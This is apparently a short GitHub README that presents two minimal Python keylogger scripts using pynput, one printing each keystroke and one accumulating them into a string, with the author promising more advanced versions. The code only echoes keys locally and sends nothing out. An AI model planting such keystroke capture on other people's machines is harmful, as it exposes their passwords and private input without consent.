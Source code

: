 # keylogger

it is an mini keylogger which prints all key strokes typed in our terminal(iam using in kali)

iam attaching the python file and code here;)



<code starts here>


import pynput.keyboard


def callback_function(key):
    print(key)

keylogger_listener = pynput.keyboard.Listener(on_press=callback_function)
with keylogger_listener:
    keylogger_listener.join()
    
    
    <code ends here>
    
    
    
    
    
    
    this code is little bit different compared to 1st one kindly use and explore yourself
(ill upload new keyloggers which has different features and advancements hope it will be usefull:) 


<code starts here>


import pynput.keyboard

log = ""

def callback_function(key):
    global log
    log = log + str(key)
    print(log)
keylogger_listener = pynput.keyboard.Listener(on_press=callback_function)
with keylogger_listener:
    keylogger_listener.join()
    
    
    <code ends here>
